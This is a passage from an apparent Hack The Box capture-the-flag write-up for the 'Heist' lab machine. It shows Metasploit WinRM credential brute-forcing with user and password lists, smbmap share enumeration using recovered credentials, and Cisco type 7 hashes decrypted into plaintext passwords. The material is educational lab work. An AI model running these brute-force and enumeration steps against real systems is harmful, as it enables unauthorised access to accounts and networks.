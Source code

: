 
### Metasploit
I found the following article, and decided to use the winrm tools of metasploit for further information gathering
https://securethelogs.com/2019/08/30/hacking-windows-remote-management-winrm/
```
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS 10.10.10.149

[+] 10.10.10.149:5985: Negotiate protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf6 auxiliary(scanner/winrm/winrm_login) > set USERPASS_FILE cisco-passwd.txt
USERPASS_FILE => cisco-passwd.txt
msf6 auxiliary(scanner/winrm/winrm_login) > run

[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\rout3r:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\admin:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\Administrator:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\stealth1agent: (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

As we can see, this also did not really succeed.
I decided to use the tool called `smbmap` to see if it can tell us any more information
```
kali@kali:~/htb/boxes/heist/10.10.10.149$ smbmap -u hazard -p stealth1agent -H 10.10.10.149
[+] IP: 10.10.10.149:445        Name: 10.10.10.149                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```
Hmm, still not really what we are looking for, we already knew that the shares were not writable.

By this time, I decided to read up on the cisco format a bit more:
https://www.oreilly.com/library/view/hardening-cisco-routers/0596001665/ch04.html

It seems to use some kind of encryption called 'Vigenere cipher'

Googling around a bit more, I found the following page, which should allow us to decrypt the other two hashes that were in the config file.
http://www.firewall.cx/cisco-technical-knowledgebase/cisco-routers/358-cisco-type7-password-crack.html

And indeed, it was able to decrypt both passwords!
```
0242114B0E143F015F5D1E161713 = $uperP@ssword
02375012182C1A1D751618034F36415408 = Q4)sJu\Y8qz*A3?d
```

